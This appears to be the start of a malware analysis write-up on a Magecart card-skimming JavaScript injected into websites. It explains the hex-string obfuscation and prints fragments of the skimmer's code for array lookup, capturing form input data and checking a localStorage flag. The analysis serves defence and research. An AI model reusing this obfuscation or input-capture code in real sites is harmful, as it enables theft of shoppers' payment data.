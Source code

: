 ## Magecart live, again ! (not for long ?)
## Table of Contents
* [Malware analysis](#Malware-analysis)
* [Indicators Of Compromise (IOC)](#IOC)
* [References MITRE ATT&CK Matrix](#Ref-MITRE-ATTACK)
* [Links](#Links)
  + [Original Tweet](#tweet)
  + [Link Anyrun](#Links-Anyrun)
  + [References](#References)

<h2>Malware analysis <a name="Malware-analysis"></a></h2>
<h6>The initial vector is a JavaScript script probably injected on a legit website and reported by <a href="https://twitter.com/felixaime">felixaime</a>. As first, we can note that the algorithm for obfuscate the strings have changed.This uses the fact that the hex values or unicode values can be read as theirs representation to ASCII, that trigged the value to pull of the array.</h6>

```js
var ar=['\x74\x69\x6d\x65\x73\x74\x61\x6d\x70', [...] ,'\x63\x68\x61\x72\x43\x6f\x64\x65\x41\x74'];
var tab=function(a,_0xaee9a5)
{
 a=a-0x0;
 var r=ar[a];
 return r;
};

//tab('\x30\x78\x30') -> '\x30\x78\x30' = '0x0' -> tab('0x0') -> "timestamp" 
// '\x30\x78' -> "0x" -> hex values for index of array
```

<h6>The next functions allow to parse the data on arrays, push the data found on the inputs and check if the operation has works. One of the news is the change to localStorage, like the cookie used previously, this doesn't have a limit of time but allows the anti-dev tools as debugger.</h6>

```js
function Parse_Data_Array(input,output)
{
 var i=0;
 for(let j in input)
 {
  array_tmp[output[i]]=input[j];
  i++;
 }
 return array_tmp;
}

function Push_Keys(a,b)
{
 if(Object["keys"](a)["length"]!=Object["keys"](b)["length"])return![];
 for(var obj in a) { return a[obj]["length"]>=0x1; }
 return![];
}
function Valid_Check(){return localStorage["getItem"](success_cart)!=null;}
```
